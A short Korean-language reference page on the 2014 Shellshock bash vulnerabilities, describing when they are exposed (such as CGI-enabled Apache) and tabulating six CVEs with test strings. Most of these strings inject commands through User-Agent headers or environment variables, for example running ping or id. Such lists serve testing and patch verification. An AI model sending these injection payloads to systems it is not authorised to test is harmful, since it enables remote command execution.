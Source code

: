 # 개요

* 리눅스를 포함한 유닉스 계열 운영체제에서 사용되는 명령어 실행 툴인 bash로부터 발생하는 취약점

# 알려진 내용

#### 공통사항\(취약한 버전의 bash 쉘을 사용중일 경우\)

1. 파싱 오류로 인한 보안 취약점 노출: 특정 프로세스를 생성하는 등의 행위를 하는 모듈이 동작해야 함 \(Ex: Enabled CGI module on the apache web server\)
2. 메모리 실행 오류로 인한 보안 취약점 노출: 위의 공통 사항과 동일

#### 취약점 분류 내역

| CVE NAME | Test Code |
| :--- | :--- |
| CVE-2014-6271 | User-Agent: \(\) { :;}; /bin/bash -c "ping ${IP\_ADDRESS} –c3" |
| CVE-2014-6277 | User-Agent: \(\) { 0; }; /bin/bash -c 'x\(\) { \_; }; x\(\) { \_; } &lt;&lt;a;' |
| CVE-2014-6278 | User-Agent: \(\) { \_; } &gt;\_\[$\($\(\)\)\] { id &gt;/tmp/CVE-2014-6278; } |
| CVE-2014-7169 | env X='\(\) { \(a\)=&gt;\' bash -c "echo date" |
| CVE-2014-7186 | bash -c 'true &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF' |
| CVE-2014-7187 | \(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done\) \| bash \|\| echo "CVE-2014-7187 vulnerable, word\_lineno" |



